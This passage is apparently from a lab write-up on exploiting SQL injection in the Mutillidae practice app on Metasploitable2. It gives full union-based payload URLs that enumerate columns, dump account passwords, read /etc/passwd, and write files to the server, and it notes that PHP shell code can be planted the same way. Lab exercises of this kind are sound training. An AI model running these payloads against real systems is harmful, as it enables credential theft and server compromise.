 
![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/5adfb3c8-c6d4-4d3d-acc4-c570314659e3)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.


![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/25de536f-a685-4ce8-a853-6cc797ba68cd)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/b2f6228e-f152-4c44-a33d-50bd64cdc400)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/f61c7d19-dc2d-44c5-a5b8-ebcd26bdce7b)

## Reading and writing files on the web-server:
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/a0170dd0-c3ee-43d7-bde0-13f6bda8e478)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
